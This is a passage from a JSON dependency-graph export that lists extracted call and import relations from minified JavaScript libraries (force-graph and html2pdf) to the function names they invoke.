"target": "flushShadowCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "linkCanvasObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "flushShadowCanvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scaleExtent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scaleExtent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "easing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "translateTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "easing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scaleTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "centerAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cancelAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_animationCycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pauseAnimation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "graphData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cooldownTicks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "nodeColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "linkColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lookup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "style"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "style"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "mouse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "mouse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "subject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "d3AlphaTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "resetCountdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onNodeDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "d3AlphaTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "d3AlphaTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "resetCountdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onNodeDragEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "zoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onZoom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "centerAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onZoomEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "centerAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onNeedsRedraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onFinishUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scaleTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forceGraph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "shadowGraph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "linkWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "globalScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tickFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isEngineRunning"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onRenderFramePre"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "globalScale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "tickFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "onRenderFramePost"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "static/js/html2pdf.bundle.min.js", "target": "vertx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "factory"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "factory"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "commonjsRequire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getTimezoneOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFullYear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "btoa"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "output"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createObjectURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "alert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "movePage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitTextToSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splitTextToSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": 